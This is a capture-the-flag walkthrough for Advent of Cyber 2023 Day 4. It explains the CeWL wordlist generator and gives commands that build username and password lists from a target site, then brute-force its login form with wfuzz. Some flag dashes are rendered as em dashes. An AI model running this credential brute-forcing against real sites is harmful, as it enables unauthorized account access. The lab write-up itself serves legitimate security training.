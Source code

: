 # Day 4

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/87565812-f06a-4f09-8433-01c6148f9d83)

## CeWL: Custom Wordlist Generator

Many tools rely on pre-defined lists or common dictionary attacks, but CeWL stands out for the following reasons:

      1. **Target-specific wordlists:**
         - CeWL crafts wordlists specifically from the content of a targeted website. The generated list is tailored to the vocabulary and terminology used on that site, increasing the efficiency of brute-forcing tasks.
      
      2. **Depth of search:**
         - CeWL can spider a website to a specified depth, extracting words not just from one page but also from linked pages up to the set depth.
      
      3. **Customizable outputs:**
         - CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This customization is advantageous for targeting specific types of credentials or vulnerabilities.
      
      4. **Built-in features:**
         - While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
      
      5. **Efficiency:**
         - Given its customizability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
      
      6. **Integration with other tools:**
         - Being command-line based, CeWL can be seamlessly integrated into automated workflows, and its outputs can be directly fed into other cybersecurity tools.
      
      7. **Actively maintained:**
         - CeWL is actively maintained and updated, staying relevant and compatible with contemporary security needs and challenges.


## Day 4 Task:

1. What is the correct username and password combination? Format username: password

    With CewlGenerate a list of Usernames with the Command — `cewl -d 0 -m 5 -w usernames.txt http://MACHINE-IP/team.php — lowercase`
    Again with CewlGenerate a list of Passwords with the Command — `cewl -d 2 -m 5 -w passwords.txt http://MACHINE-IP — with-numbers`
    Now bruteforce the Credentials using wfuzz with the command —

    `wfuzz -c -z file,usernames.txt -z file,passwords.txt — hs “Please enter the correct credentials” -u http://MACHINE-IP/login.php -d “username=FUZZ&password=FUZ2Z”`

